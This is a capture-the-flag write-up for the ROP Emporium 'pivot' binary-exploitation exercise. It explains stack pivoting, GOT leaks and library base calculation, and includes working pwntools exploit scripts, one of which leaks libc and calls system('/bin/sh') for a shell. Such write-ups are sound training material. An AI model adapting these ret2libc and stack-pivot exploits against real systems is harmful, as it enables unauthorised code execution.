 # 7. pivot

the seventh challenge, in this challenge, the objective is to call a function 
`ret2win` that lives within an imported library and the stack is only small 
enough for a small rop chain, but the challenge provides us a space address 
with an address pointing to it. so we can write our full ropchain there and 
then "pivot" into that address.

there're several gadgets for us to work on within the binary

```
$ objdump -M intel --disassemble=usefulGadgets -S pivot

pivot:     file format elf64-x86-64


Disassembly of section .init:

Disassembly of section .plt:

Disassembly of section .text:

00000000004009bb <usefulGadgets>:
  4009bb:       58                      pop    rax
  4009bc:       c3                      ret
  4009bd:       48 94                   xchg   rsp,rax
  4009bf:       c3                      ret
  4009c0:       48 8b 00                mov    rax,QWORD PTR [rax]
  4009c3:       c3                      ret
  4009c4:       48 01 e8                add    rax,rbp
  4009c7:       c3                      ret
  4009c8:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  4009cf:       00
```

we can use `pop rax; ret; xchg rsp, rax; ret` to change the stack point to our 
pivot address.  

let's look into what's inside the binary.

```
gef➤  i func
All defined functions:

Non-debugging symbols:
0x00000000004006a0  _init
0x00000000004006d0  free@plt
0x00000000004006e0  puts@plt
0x00000000004006f0  printf@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  foothold_function@plt
0x0000000000400730  malloc@plt
0x0000000000400740  setvbuf@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x00000000004008f1  pwnme
0x00000000004009a8  uselessFunction
0x00000000004009bb  usefulGadgets
0x00000000004009d0  __libc_csu_init
0x0000000000400a40  __libc_csu_fini
0x0000000000400a44  _fini
```

there's one function that is imported from `libpivot` into the binary which is 
`foothold_function` but there's no `ret2win` imported, does that mean we can't call `ret2win`?  

no, `ret2win` is still possible to be call if we leaked the address of `foothold_function` 
and calculate the address to `ret2win` it is possible to be called.  

okay, if you did not read the [beginner's guide](https://ropemporium.com/guide.html) 
of ROP Emporium yet, consider reading it now otherwise it won't make that much 
sense going forword.  

alright, now what do we have to do to leak the address of `foothold_function`? 
from the description of the challenge, the function is imported but is not used 
so the `got.plt` of `foothold_function` is not updated yet, what we have to do 
here is to call it using our rop chain and then leak the updated address in `got.plt`.  

after that we can use `puts` to leak the address of the updated `got.plt` of 
`foothold_function` then, use it to calculate the address in the library itself 
so that we get the base address of the library, then we can simply take the offset 
of `ret2win` and add it to the base address to get the runtime address of `ret2win`. 
after that we can call `main` again and send new chain with the address of `ret2win`.  

let's craft the chain to do so.  

```python
from pwn import *

elf = context.binary = ELF("./pivot")
libpivot = ELF("./libpivot.so")
rop = ROP(elf)
p = process()

# gdb.attach(p, "break foothold_function")

padding = b"x" * 40

main_plt = elf.symbols["main"]
foothold_plt = elf.plt["foothold_function"]
foothold_got = elf.got["foothold_function"]
puts_plt = elf.plt["puts"]

p.recvuntil(b"libpivot\n")

pivot = int(p.recvline().decode("utf-8").split()[-1].strip()[2::], 16)
log.info(f"pivot location: {hex(pivot)}")

payload = p64(foothold_plt) + p64(rop.find_gadget(["pop rdi", "ret"])[0]) + p64(foothold_got) + p64(puts_plt) + p64(main_plt)

p.sendline(payload)

p.clean()

xchg_rsp_rax = 0x4009bd # somehow ROPgadget can't find "xchg rsp, rax", "ret" but can be searched using commandline (why)
p.sendline(padding + p64(rop.find_gadget(["pop rax", "ret"])[0]) + p64(pivot) + p64(xchg_rsp_rax))

p.recvline()
p.recvline()

leak_foothold_bytes = bytearray.fromhex(p.recvline().strip().hex())
leak_foothold_bytes.reverse()

leak_foothold = int.from_bytes(leak_foothold_bytes)

log.info(f"leaked foothold {hex(leak_foothold)}")

base_libpivot = leak_foothold - libpivot.symbols["foothold_function"]

ret2win = base_libpivot + libpivot.symbols["ret2win"]

log.info(f"ret2win location: {hex(ret2win)}, we are jumping now!")

p.clean()

p.sendline(padding + p64(ret2win))
p.interactive()
```

let's try it.

```
$ python solve.py
[*] '/home/kali/ctf/rop/pivot/pivot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] '/home/kali/ctf/rop/pivot/libpivot.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 15 cached gadgets for './pivot'
[+] Starting local process '/home/kali/ctf/rop/pivot/pivot': pid 1837
[*] pivot location: 0x7efc12619f10
[*] leaked foothold 0x7efc1280096a
[*] ret2win location: 0x7efc12800a81, we are jumping now!
[*] Switching to interactive mode
[*] Process '/home/kali/ctf/rop/pivot/pivot' stopped with exit code 0 (pid 1837)
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

very nice, now that we have this knowledge, we can just leak the address of `libc` 
to get a shell by calling `system` with `/bin/sh` as an argument. you should 
try it yourself.

<details>
  <summary>hmm?</summary>
  
```python
from pwn import *

elf = context.binary = ELF("./pivot")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
rop = ROP(elf)
p = process()

# gdb.attach(p, "break foothold_function")

padding = b"x" * 40

main_plt = elf.symbols["main"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

p.recvuntil(b"libpivot\n")

pivot = int(p.recvline().decode("utf-8").split()[-1].strip()[2::], 16)
log.info(f"pivot location: {hex(pivot)}")

payload = p64(rop.find_gadget(["pop rdi", "ret"])[0]) + p64(puts_got) + p64(puts_plt) + p64(main_plt)

p.sendline(payload)

p.clean()

xchg_rsp_rax = 0x4009bd # somehow ROPgadget can't find "xchg rsp, rax", "ret" but can be searched using commandline (why)
p.sendline(padding + p64(rop.find_gadget(["pop rax", "ret"])[0]) + p64(pivot) + p64(xchg_rsp_rax))

p.recvline()

leak_puts_bytes = bytearray.fromhex(p.recvline().strip().hex())
leak_puts_bytes.reverse()

leak_puts = int.from_bytes(leak_puts_bytes)
log.info(f"leaked puts {hex(leak_puts)}")

base_libc = leak_puts - libc.symbols["puts"]

bin_sh = base_libc + next(libc.search(b"/bin/sh"))
system = base_libc + libc.symbols["system"]

log.info(f"system location: {hex(system)} with arg {hex(bin_sh)}, we are jumping now!")

p.clean()

p.sendline(padding + p64(rop.find_gadget(["pop rdi", "ret"])[0]) + p64(bin_sh) + p64(system))
p.interactive()
```
</details>

there's also other ways to solve this challenge such as writing `got.plt` with 
something else, or use one_gadget or loading `got.plt` into memory, modify it 
and call it using `call reg`. but i've had enough of it so, nicesu nicesu!!


